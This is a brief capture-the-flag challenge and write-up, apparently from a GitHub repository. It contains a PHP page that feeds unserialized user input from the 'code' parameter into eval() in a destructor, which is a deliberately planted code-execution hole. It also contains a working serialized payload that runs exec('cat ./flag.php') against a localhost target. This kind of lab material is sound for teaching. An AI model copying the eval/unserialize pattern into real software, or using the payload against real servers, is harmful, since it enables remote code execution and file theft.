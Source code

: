
### 某站点图片阅览器
![](./un.jpg)
```
<?php 
error_reporting(0); 
if(empty($_GET['code'])) die(show_source(__FILE__)); 
class Example{ 
    var $var=""; 
    function __destruct(){ 
        eval($this->var); 
    } 
} 

$ob = new Example(); 
$ob->var = unserialize($_GET['code']); 
echo '__FILE__:' . __FILE__; 
echo '<br />' . '?code='; 
unset($ob); 
?> 1
```
#### 配置
```
chmod 777 un.php
```

# Writeup:

Payload:

```
<?php
$a =serialize('echo exec("cat ./flag.php");');
echo $a;
?>

>>>> php se.php

s:28:"echo exec("cat ./flag.php");";

```


http://127.0.0.1/un.php?code=s:28:"echo exec("cat ./flag.php");";

![](./get-flag.jpg)
